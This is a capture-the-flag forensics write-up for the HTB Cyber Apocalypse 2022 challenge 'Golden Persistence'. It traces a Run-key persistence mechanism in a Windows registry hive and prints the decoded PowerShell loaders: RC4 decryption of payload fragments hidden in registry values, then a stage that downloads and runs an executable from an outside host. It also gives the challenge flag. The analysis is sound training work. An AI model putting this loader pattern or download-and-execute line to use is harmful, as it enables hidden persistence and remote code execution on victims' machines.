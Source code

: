 ```yaml
---
title: "HTB Cyber Apocalypse CTF 2022"
categories: [Writeups]
layout: post 
---
```


# HTB Cyber Apoclypse CTF 2022 Writeups

## Team Placing: #99 / 7024

![](/assets/img/writeups/HTBCyberApocalypse2022/certificate.jpg)

## Categories
* ### Forensics
    * #### [Golden Persistence](#challenge-golden-persistence)
    * #### More writeups soon...

-------------------------------------------------------------------------------

### Challenge: Golden Persistence
### Category: Forensics

## Description:

![](/assets/img/writeups/HTBCyberApocalypse2022/forensics_golden_persistence.png)

## Walkthrough:

We're provided a `NTUSER.DAT` file which contains the `HKEY_CURRENT_USER` registry hive in Windows. Based off the challenge title and description, we know we're looking for some persistence within the registry. One of the most common mechanisms for persistence within the registry is by using the `Run` registry key which is used to run a program every time a user logs on.

So we can use a tool from Eric Zimmerman called [Registry Explorer](https://ericzimmerman.github.io/#!index.md) to easily view the registry hive mentioned before. The `Run` registry key is located in `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` so let's check that out first:

![](/assets/img/writeups/HTBCyberApocalypse2022/Golden%20Persistence%20Writeup.001.png)

We can quickly see that there is a PowerShell payload which appears to be Base64 encoded. We can use CyberChef to quickly decode this and save to a file called `stage2.ps1`:
```powershell
function encr {
    param(
        [Byte[]]$data,
        [Byte[]]$key
      )
 
    [Byte[]]$buffer = New-Object Byte[] $data.Length
    $data.CopyTo($buffer, 0)
    
    [Byte[]]$s = New-Object Byte[] 256;
    [Byte[]]$k = New-Object Byte[] 256;
 
    for ($i = 0; $i -lt 256; $i++)
    {
        $s[$i] = [Byte]$i;
        $k[$i] = $key[$i % $key.Length];
    }
 
    $j = 0;
    for ($i = 0; $i -lt 256; $i++)
    {
        $j = ($j + $s[$i] + $k[$i]) % 256;
        $temp = $s[$i];
        $s[$i] = $s[$j];
        $s[$j] = $temp;
    }
 
    $i = $j = 0;
    for ($x = 0; $x -lt $buffer.Length; $x++)
    {
        $i = ($i + 1) % 256;
        $j = ($j + $s[$i]) % 256;
        $temp = $s[$i];
        $s[$i] = $s[$j];
        $s[$j] = $temp;
        [int]$t = ($s[$i] + $s[$j]) % 256;
        $buffer[$x] = $buffer[$x] -bxor $s[$t];
    }
 
    return $buffer
}


function HexToBin {
    param(
    [Parameter(
        Position=0, 
        Mandatory=$true, 
        ValueFromPipeline=$true)
    ]   
    [string]$s)
    $return = @()
    
    for ($i = 0; $i -lt $s.Length ; $i += 2)
    {
        $return += [Byte]::Parse($s.Substring($i, 2), [System.Globalization.NumberStyles]::HexNumber)
    }
    
    Write-Output $return
}

[Byte[]]$key = $enc.GetBytes("Q0mmpr4B5rvZi3pS")
$encrypted1 = (Get-ItemProperty -Path HKCU:\SOFTWARE\ZYb78P4s).t3RBka5tL
$encrypted2 = (Get-ItemProperty -Path HKCU:\SOFTWARE\BjqAtIen).uLltjjW
$encrypted3 = (Get-ItemProperty -Path HKCU:\SOFTWARE\AppDataLow\t03A1Stq).uY4S39Da
$encrypted4 = (Get-ItemProperty -Path HKCU:\SOFTWARE\Google\Nv50zeG).Kb19fyhl
$encrypted5 = (Get-ItemProperty -Path HKCU:\AppEvents\Jx66ZG0O).jH54NW8C
$encrypted = "$($encrypted1)$($encrypted2)$($encrypted3)$($encrypted4)$($encrypted5)"
$enc = [System.Text.Encoding]::ASCII
[Byte[]]$data = HexToBin $encrypted
$DecryptedBytes = encr $data $key
$DecryptedString = $enc.GetString($DecryptedBytes)
$DecryptedString|iex
```

To summarize the script, it grabs the values within other registry keys in the hive and concatenates them:
```powershell
$encrypted1 = (Get-ItemProperty -Path HKCU:\SOFTWARE\ZYb78P4s).t3RBka5tL
$encrypted2 = (Get-ItemProperty -Path HKCU:\SOFTWARE\BjqAtIen).uLltjjW
$encrypted3 = (Get-ItemProperty -Path HKCU:\SOFTWARE\AppDataLow\t03A1Stq).uY4S39Da
$encrypted4 = (Get-ItemProperty -Path HKCU:\SOFTWARE\Google\Nv50zeG).Kb19fyhl
$encrypted5 = (Get-ItemProperty -Path HKCU:\AppEvents\Jx66ZG0O).jH54NW8C
$encrypted = "$($encrypted1)$($encrypted2)$($encrypted3)$($encrypted4)$($encrypted5)"
```

It then hex decodes these strings using the defined `HexToBin` function:
```powershell
[Byte[]]$data = HexToBin $encrypted
```

Finally, it decrypts these bytes using the defined `encr` function and executes the decrypted string using `iex` [(Invoke-Expression)](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2)

```powershell
$DecryptedBytes = encr $data $key
$DecryptedString = $enc.GetString($DecryptedBytes)
$DecryptedString|iex
```

Now that we have an idea of what is occurring, let's grab those hex strings I mentioned from the registry. Registry Explorer has a handy search feature which makes this easy:

![](/assets/img/writeups/HTBCyberApocalypse2022/Golden%20Persistence%20Writeup.002.png)

After grabbing the hex strings, now we can just make the script work for us by replacing the encrypted variables with the correct hex string and ensuring we comment out the `iex` so we do not actually execute the potentially malicious payload:

```powershell
# $encrypted1 = (Get-ItemProperty -Path HKCU:\SOFTWARE\ZYb78P4s).t3RBka5tL
$encrypted1 = "F844A6035CF27CC4C90DFEAF579398BE6F7D5ED10270BD12A661DAD04191347559B82ED546015B07317000D8909939A4DA7953AED8B83C0FEE4EB6E120372F536BC5DC39"
#$encrypted2 = (Get-ItemProperty -Path HKCU:\SOFTWARE\BjqAtIen).uLltjjW
$encrypted2 = "CC19F66A5F3B2E36C9B810FE7CC4D9CE342E8E00138A4F7F5CDD9EED9E09299DD7C6933CF4734E12A906FD9CE1CA57D445DB9CABF850529F5845083F34BA1"
#$encrypted3 = (Get-ItemProperty -Path HKCU:\SOFTWARE\AppDataLow\t03A1Stq).uY4S39Da
$encrypted3 = "C08114AA67EB979D36DC3EFA0F62086B947F672BD8F966305A98EF93AA39076C3726B0EDEBFA10811A15F1CF1BEFC78AFC5E08AD8CACDB323F44B4D"
#$encrypted4 = (Get-ItemProperty -Path HKCU:\SOFTWARE\Google\Nv50zeG).Kb19fyhl
$encrypted4 = "D814EB4E244A153AF8FAA1121A5CCFD0FEAC8DD96A9B31CCF6C3E3E03C1E93626DF5B3E0B141467116CC08F92147F7A0BE0D95B0172A7F34922D6C236BC7DE54D8ACBFA70D1"
#$encrypted5 = (Get-ItemProperty -Path HKCU:\AppEvents\Jx66ZG0O).jH54NW8C
$encrypted5 = "84AB553E67C743BE696A0AC80C16E2B354C2AE7918EE08A0A3887875C83E44ACA7393F1C579EE41BCB7D336CAF8695266839907F47775F89C1F170562A6B0A01C0F3BC4CB"
$encrypted = "$($encrypted1)$($encrypted2)$($encrypted3)$($encrypted4)$($encrypted5)"
$enc = [System.Text.Encoding]::ASCII
[Byte[]]$data = HexToBin $encrypted
$DecryptedBytes = encr $data $key
$DecryptedString = $enc.GetString($DecryptedBytes)
$DecryptedString#|iex
```

Running the `stage2.ps1` script, we get even more PowerShell code:

```powershell
$path ="C:\ProgramData\windows\goldenf.exe";$exists = Test-Path -Path $path -PathType Leaf;if ( $exists ){Start-Process $path}else{mkdir "C:\ProgramData\windows";Invoke-WebRequest -Uri https://thoccarthmercenaries.edu.tho/wp-content/goldenf.exe -OutFile $path;$flag="HTB{g0ld3n_F4ng_1s_n0t_st34lthy_3n0ugh}";Start-Process $path}
```

And here it is cleaned up a bit:

```powershell
$path ="C:\ProgramData\windows\goldenf.exe";
$exists = Test-Path -Path $path -PathType Leaf;
if ( $exists ){
    Start-Process $path
}else{
    mkdir "C:\ProgramData\windows";
    Invoke-WebRequest -Uri https://thoccarthmercenaries.edu.tho/wp-content/goldenf.exe -OutFile $path;
    $flag="HTB{g0ld3n_F4ng_1s_n0t_st34lthy_3n0ugh}";
    Start-Process $path
}
```

We can see the script checks to see if `goldenf.exe` exists at the specified path, if it does it will simply execute- otherwise it will download the executable and then execute. 

And there's also our flag!

### Flag: HTB{g0ld3n_F4ng_1s_n0t_st34lthy_3n0ugh}